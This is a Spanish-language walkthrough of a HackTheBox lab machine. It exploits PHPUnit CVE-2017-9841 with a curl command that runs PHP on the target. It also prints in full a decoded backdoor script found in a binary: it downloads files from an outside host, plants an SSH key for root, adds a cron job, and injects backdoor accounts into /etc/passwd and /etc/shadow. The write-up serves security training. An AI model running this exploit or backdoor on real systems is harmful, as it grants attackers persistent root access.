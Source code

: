 ```json
```

#### PHPUnit 5.6 Exploitation (CVE-2017-9841) [RCE]  
Si buscamos por vulnerabilidad por cada uno de los plugins, encontramos una para el plugin de **phpunit/phpunit** de tipo **Remote Code Execution** el cual nos dice que debemos de mandar una data en tipo **PHP** a la siguiente dirección:
```ruby
# curl -s -X GET "http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php" -d '<?php system("whoami"); ?>'
www-data
```

Y ya tendriamos la ejecución remota de comandos. Ahora, podriamos mandar una data en base64 para ejecutar una reverse shell y pipearla con **base64 -d** y luego con **bash**:
![[Pasted image 20230828155920.png]]

--------------
#### Backup Inspection  
Una vez en la maquina vamos a filtrar por archivos que pertecezca a **www-data** (es nuestro usuario, acualmente). Encontramos uno en particular que nos llama  la atención de nombre **Info**:
![[Pasted image 20230828160435.png]]

Al hacerle un **File** observamos que es un binario compilado para **Unix**:
```ruby
# find / -group www-data 2>/dev/null | grep -vE "procail -n 1 | xargs file  
/var/backups/info: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0dc004db7476356e9ed477835e583c68f1d2493a, for GNU/Linux 3.2.0, not stripped
```

Al estar en el directorio **BackUp** puede darnos una pista de que quizás haya información privilegiada que podamos aprovechar.

#### Binary Analysis - GHIDRA  
Descargamos el archivo para posteriormente inspeccionarlo con **Ghidra**. Al hacerle un **Strings** al binario, podemos observar algo peculiar que llama la atención:
![[Pasted image 20230828162324.png]]

Se trata de una cadena en **Hexadecimal** la cual, al hacer el proceso inverso, vemos las siguientes lineas de codigo:
```bash
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys;
wget tempfiles.xyz/.main -O /var/lib/.main;
chmod 755 /var/lib/.main;
echo "* 3 * * * root /var/lib/.main" >> /etc/crontab;
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd;
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd;
while read -r user group home shell _;
do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd; done < users.txt;
rm users.txt;
```
